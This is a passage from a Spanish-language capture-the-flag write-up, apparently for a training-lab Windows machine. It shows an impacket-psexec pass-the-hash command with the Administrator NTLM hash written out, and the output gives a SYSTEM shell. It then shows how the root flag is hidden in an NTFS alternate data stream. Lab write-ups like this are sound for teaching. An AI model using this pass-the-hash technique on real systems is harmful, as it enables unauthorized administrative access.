 ```
# impacket-psexec WORKGROUP/Administrator@10.129.194.239 -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.194.239.....
[*] Found writable share ADMIN$
[*] Uploading file XQQrIHWQ.exe
[*] Opening SVCManager on 10.129.194.239.....
[*] Creating service AtCI on 10.129.194.239.....
[*] Starting service AtCI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Cuando vamos al directorio de `Administrator` a la parte del `escritorio` e intentamos ver la `flag` ocurre lo siguiente

```
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,612,101,120 bytes free

C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

Esto se debe a que ese archivo tiene un `ADS` (Alternate Data Stream)

```
C:\Users\Administrator\Desktop> dir /r /s
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes

     Total Files Listed:
               2 File(s)            833 bytes
               2 Dir(s)   2,612,101,120 bytes free
```
